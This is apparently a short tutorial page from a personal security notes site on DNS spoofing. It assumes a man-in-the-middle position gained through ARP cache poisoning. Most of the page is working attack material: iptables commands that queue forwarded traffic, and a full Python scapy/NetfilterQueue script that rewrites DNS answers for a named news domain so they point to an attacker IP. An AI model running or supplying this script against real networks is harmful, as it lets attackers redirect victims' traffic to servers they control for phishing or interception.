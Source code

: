 ```yaml
---
title: "DNS spoofing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can spoof DNS answers, by modifying the rdata field in the DNS Response request packet.

After spoofing the rdata field will contain a spoofed ip address of a attacker server instead of the original servers IP address.

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jwever.bitbucket.io/lan/exploitation/mitm/arp_cache_poisoning/

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```Shell
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

```python
import netfilterqueue
from scapy.all import IP
import scapy.all as scapy


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "nrc.nl" in qname:
            print("[+] Spoofing target")
            answer = scapy.DNSRR(rrname=qname, rdata="192.168.178.12")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(str(scapy_packet))

    packet.accept()



queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
